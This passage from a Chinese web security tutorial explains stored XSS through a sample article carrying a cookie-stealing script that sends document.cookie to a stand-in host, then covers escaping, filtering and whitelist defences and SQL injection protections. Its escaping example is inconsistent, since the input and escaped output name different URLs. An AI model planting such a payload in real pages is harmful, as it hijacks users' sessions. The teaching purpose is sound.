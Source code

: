 example.com 可以发文章，我登录后在 example.com 中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时 Tom 和 Jack 看到了我发布的文章，当在查看我的文章时就都中招了，他们的 cookie 信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。

### 防御 XSS 攻击

理论上，网站上所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力，攻击代码也不局限于script。防御 XSS 攻击最简单直接的方法，就是过滤用户的输入。

#### 方法一：

如果不需要用户输入 HTML，可以直接对用户的输入进行 HTML escape 。下面一小段脚本：

```javascript
<script>window.location.href=”http://www.xss.com”;</script>
```

经过 escape 之后就成了：

```javascript
&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;
```

它现在会像普通文本一样显示出来，变得无毒无害，不能执行了。

#### 方法二：完善的过滤体系

永远不相信用户的输入。需要对用户的输入进行处理，只允许输入合法的值，其它值一概过滤掉。

#### 方法三：当用户需要输入 HTML 代码

当我们需要用户输入 HTML 的时候，需要对用户输入的内容做更加小心细致的处理。

仅仅粗暴地去掉 script 标签是没有用的，任何一个合法 HTML 标签都可以添加 onclick 一类的事件属性来执行 JavaScript。

更好的方法可能是，将用户的输入使用 HTML 解析库进行解析，获取其中的数据。然后根据用户原有的标签属性，重新构建 HTML 元素树。构建的过程中，所有的标签、属性都只从白名单中拿取。

## SQL 注入

### 概念

所谓 SQL 注入，就是通过把 SQL 命令插入到 Web 表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的 SQL 命令。

具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在 Web 表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。

### SQL 防护

1. 永远不要信任用户的输入:  
对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和
双"-"进行转换等。
	
2. 永远不要使用动态拼装 sql，可以使用参数化的 sql 或者直接使用存储过程进行数据查询存取。

3. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。

4. 不要把机密信息直接存放，加密或者 hash 掉密码和敏感的信息。

## SYN 攻击
